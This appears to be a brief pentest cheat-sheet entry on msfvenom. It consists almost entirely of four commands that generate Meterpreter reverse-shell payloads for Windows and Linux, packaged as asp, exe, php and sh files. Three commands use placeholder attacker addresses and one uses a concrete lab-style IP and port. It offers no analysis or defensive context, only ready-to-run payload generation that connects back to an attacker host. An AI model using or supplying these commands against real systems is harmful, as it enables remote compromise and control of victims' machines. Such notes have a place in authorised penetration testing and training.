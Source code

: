## msfvenom
Creates reverse shells for different platforms

### Example
```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker-ip> LPORT=<attacker-port> -f asp > shell.asp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker-ip> LPORT=<attacker-port> -f exe > shell.exe
msfvenom -p linux/meterpreter/reverse_tcp LHOST=<attacker-ip> LPORT=<attacker-port> -f php > shell.php
msfvenom -p linux/meterpreter/reverse_tcp LHOST=10.10.14.190 LPORT=8001 -f sh > shell.sh
```
